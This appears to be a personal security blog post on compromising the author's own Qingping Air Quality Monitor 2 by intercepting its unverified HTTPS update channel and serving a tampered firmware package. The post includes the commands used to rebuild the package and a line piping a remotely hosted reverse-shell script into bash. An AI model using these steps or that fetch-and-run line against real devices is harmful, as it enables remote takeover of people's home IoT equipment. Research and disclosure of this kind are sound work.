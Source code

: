 ```yaml
---
layout: single
title: Hacking my Qingping Air Quality Monitor 2
date: 2025-08-13
classes: wide
header:
  teaser: /assets/images/qingping/1.jpeg
tags:
  - Exploit-Dev
  - Penetration Testing
  - IoT
---
```


I recently acquired a [Qingping Air Quality Monitor 2](https://www.qingping.co/air-monitor-2/overview) for monitoring indoor air quality. While I’ve been happy with the product, I’m inherently distrustful of IoT devices, especially those that connect to my home’s Wi-Fi network. So, I set out to investigate its functionality with the end goal of obtaining some form of command execution to further explore the file system and running processes on the device.

## Recon

Running a basic port scan on the device revealed that only port 53 was open, running `dnsmasq 2.85`:

![](/assets/images/qingping/2.png)

A quick search for this version shows a [2022 CVE](https://www.cvedetails.com/cve/CVE-2022-0934/) for a denial-of-service bug. However, this wasn’t of interest here.

Next, I wanted to see what web requests the device makes when connected to the internet. On my home network I use NextDNS, which offers functionality similar to Pi-hole (though any DNS logging solution would work). Once connected to Wi-Fi, the Qingping device sent several requests to the `*.cleargrass.com` domain.

As a web pentester, I immediately wanted to intercept and inspect these HTTP requests. To do this, I needed to MITM the device’s traffic. Fortunately, many home DNS solutions (router settings, Pi-hole, etc.) let you add custom DNS entries, so I could map `*.cleargrass.com` to my laptop’s IP address and redirect traffic there. If your network doesn’t have this feature, the tool [bettercap](https://www.bettercap.org/) can perform DNS spoofing to acheive similar results.

![](/assets/images/qingping/3.png)

Starting a netcat listener on port 443 confirmed that HTTPS traffic for `*.cleargrass.com` now hit my laptop. The next challenge was intercepting the HTTPS requests. For this, I generated a small Python HTTPS server that proxies requests to Burp Suite on `127.0.0.1:8080`. This script is available [here](/assets/code/qingping/https_tap.py)

First, generate an SSL certificate for the HTTPS server:
```
openssl req -x509 -newkey rsa:2048 -keyout key.pem -out cert.pem -days 365 -nodes -subj "/CN=localhost"
```

Next, run the HTTPS server script with Burp Suite listening. 

```
sudo python3 https_tap.py --addr 192.168.1.186 --port 443 --cert cert.pem --key key.pem
```

![](/assets/images/qingping/4.png)

Great, we are successfully able to intercept HTTP requests generated by the Qingping device. 

Interestingly, the device continues to function normally while being MITM'd, which strongly indicates that SSL certificate verification is disabled. One would expect that some sort of certificate pinning would be enforced to avoid this scenario.

Note: Since we’ve remapped DNS for `*.cleargrass.com`, you’ll need to restore correct DNS resolution on your laptop so it can forward requests. One way is to temporarily set your laptop's DNS to `8.8.8.8` instead of using the network's DNS configuration. Alternatively, set up an SSH SOCKS proxy and configure Burp Suite to use it.

## System Update Functionality

With minimal exposed ports, the system update mechanism seemed the most promising attack surface. Within the device Settings > System Update menu, one can instruct the device to check for updates. 

![](/assets/images/qingping/14.png)

The relevant HTTP request and response are shown below (note: at the time of writing this software version `4.5.6_0156` was the latest stable version).

![](/assets/images/qingping/5.png)

However, if we modify the outbound HTTP request to advertise a lower version, let's say `4.5.6_0155`, the web server responds with instructions to update the device.

![](/assets/images/qingping/6.png)

The HTTP response contains some key information. It tells the device a new version is available, it provides the software update's MD5 hash, the software update's URL location, and a brief description of the update. The next logical step is to inspect this software update package. The device then issues a request to the URL described in the prior HTTP request. This request and response are shown below:


![](/assets/images/qingping/8.png)

One interesting thing to note is that the ETag header contains the MD5 hash of the software update, which is also included in the GET request path.

Downloading and extracting the ZIP file reveals a certificate, several Bash scripts, another ZIP file, and a Linux ELF binary. Given that the device reboots after updating, the `ota.sh` script is likely executed during the update process.



![](/assets/images/qingping/7.png)

At this point, the attack path is clear: intercept the update process and deliver a modified package.

## Crafting our Malicious Update

As previously discussed, `ota.sh` seems like a good candidate to insert our own Bash commands. Let's try a `curl` command to a web server we control to see if these commands will be execution upon updating the software.

![](/assets/images/qingping/9.png)

Next we will also need to update the file `md5` with the new MD5 hash of `ota.sh`, below is a Bash command to achieve this:
```bash
rm -f md5
for f in *; do
  [ "$f" = "md5" ] && continue
  [ -f "$f" ] || continue
  md5 -q "$f" | awk -v n="$f" '{printf "%s  %s\n",$1,n}' >> md5
done
```

![](/assets/images/qingping/10.png)

Next we can zip everything up with a zip command: 
```
zip -X -9 -q -r ../malicious_update.zip .
```

Great, now we have crafted a malicious software update with an added Bash command. Once we supply this update to the device we should see a GET request to our web server.

## Delivering the Malicious Update
Since we can intercept HTTP requests and responses to the device, it is trivial to supply our own .zip file in the HTTP response to the update request. However, as discussed above there are a few additional pieces of information required in the HTTP response headers, such as the MD5 hash. To assist with this, I once again vibe coded a brief script that handles all the math and delivers the proper response.

The attack flow:
1. DNS spoof the `*.cleargrass.com` domain
2. Respond to the check update request with a new update
3. Replace the system update zip file with our own malicious zip

To acheive this, we will modify the previous python HTTPS server to deliver the malicious update. As noted, we will need to adjust MD5 hashes and other HTTP response headers for the device to accept the file. This is all handled by the code.

Let's see it in action. If all goes well we should see a curl request on our web server to `/qingping`. Starting the [updated python HTTPS server](/assets/code/qingping/zip_supply.py):
```
 sudo python3 zip_supply.py --addr 192.168.1.186 --port 443 --cert cert.pem --key key.pem --zip-file ../malicious_update.zip
```

 On the device, initiate a system update. We can see the request come through to our fake update server.

 ![](/assets/images/qingping/11.png)

 After a few moments we see the HTTP request to our web server. Nice! 

 ![](/assets/images/qingping/12.png)

From here, obtaining a reverse shell is trivial. I personally had success modifying the shell command in `ota.sh` to `curl https://poc.cinzinga.com/qingping | bash` where the file `qingping` hosted a reverse shell.

 ![](/assets/images/qingping/13.png)

## Further Research

The Qingping Air Quality Monitor also integrates with a mobile app, which could be another interesting target. The device’s firmware contains numerous binaries that manage its functions. Analyzing these could uncover deeper vulnerabilities. 